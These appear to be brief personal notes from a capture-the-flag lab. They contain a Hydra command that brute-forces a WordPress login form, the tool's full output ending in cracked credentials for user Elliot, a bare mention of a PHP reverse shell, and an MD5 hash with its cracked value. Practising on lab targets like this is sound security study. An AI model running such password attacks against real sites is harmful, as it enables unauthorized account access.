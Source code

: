 # Apuntes

hydra -l Elliot -P ./f.dic 10.10.115.72 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 30
 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[INFORMATION] reading restore file ./hydra.restore
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 02:05:01
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-form://10.10.115.72:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username
[STATUS] 3376.00 tries/min, 3376 tries in 00:01h, 8076 to do in 00:03h, 30 active
[STATUS] 1739.50 tries/min, 3479 tries in 00:02h, 7973 to do in 00:05h, 30 active
[STATUS] 921.25 tries/min, 3685 tries in 00:04h, 7767 to do in 00:09h, 30 active
[STATUS] 510.75 tries/min, 4086 tries in 00:08h, 7366 to do in 00:15h, 30 active
[STATUS] 352.92 tries/min, 4588 tries in 00:13h, 6864 to do in 00:20h, 30 active
[STATUS] 282.00 tries/min, 5076 tries in 00:18h, 6376 to do in 00:23h, 30 active

^[[3~[80][http-post-form] host: 10.10.115.72   login: Elliot   password: ER28-0652


reverse shell php

hash

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz